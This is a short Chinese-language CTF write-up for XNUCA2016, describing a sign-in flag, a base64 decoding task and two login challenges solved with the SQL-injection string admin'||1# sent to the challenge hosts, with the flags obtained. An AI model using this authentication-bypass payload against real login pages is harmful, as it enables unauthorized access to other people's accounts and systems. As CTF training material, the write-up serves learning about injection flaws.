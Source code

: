 ```yaml
---
title: XNUCA2016 Writeup
date: 2016-08-01 10:23:42
tags:
- Blogs
- ctf
categories:
- Blogs
---
```


周末一个人打了中科院的XNUCA（小伙伴打着打着就不知道哪里去了...）,由于比较弱，最后也只能打到20多名，稍微整理下wp吧...

![](/img/xnuca/1.png)


# Sign #

Good Luck！flag{X-nuca@GoodLuck!}

没啥可说的

# BaseCoding #

提示：这是编码不是加密哦!一般什么编码里常见等号？
这一串字符好奇怪的样子，里面会不会隐藏什么信息？http://question1.erangelab.com/

这种题目还需要提示.....base64解一下就好了

# BaseInjection #

提示：试试万能密码
不知道密码也能登录。http://question2.erangelab.com/

```
http://question2.erangelab.com/chklogin.php
username=admin'||1#&password=admin

flag{N1ce1njected}
```

# 4、BaseReconstruction #

提示：对数据包进行重构是基本技能
此题看似和上题一样，其实不然。http://question3.erangelab.com/

说实话我不知道有啥区别，payload和上面一样。

```
http://question3.erangelab.com/chklogin.php

username=admin'||1#&password=123

flag{Cr05sthEjava5cr1pt}
```
